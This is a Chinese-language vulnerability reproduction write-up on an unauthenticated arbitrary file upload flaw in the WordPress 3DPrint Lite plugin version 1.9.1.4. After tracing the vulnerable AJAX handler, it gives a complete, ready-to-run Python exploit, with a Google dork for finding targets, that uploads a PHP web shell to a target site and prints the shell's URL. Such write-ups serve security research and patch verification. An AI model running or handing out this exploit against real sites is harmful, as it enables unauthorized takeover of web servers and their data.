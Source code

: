 # WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

```
3DPrint Lite Version 1.9.1.4 版本
```

## 插件名

3DPrint Lite

https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip

## 漏洞复现

首先看一下插件注册的接口

![1638590530183-dbba3790-04d8-4567-bf1e-2f49629a9911](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241329738.png)

```
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`

![2](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241331648.png)

向下看可以看到一个标准的文件上传代码

![3](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241331787.png)

通过调试可以找到上传路径 `/wp-content/uploads/p3d/`

![image-20220524133048318](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241330351.png)

未授权调用 p3dlite_handle_upload 上传文件

```
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();        
```

![4](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241331913.png)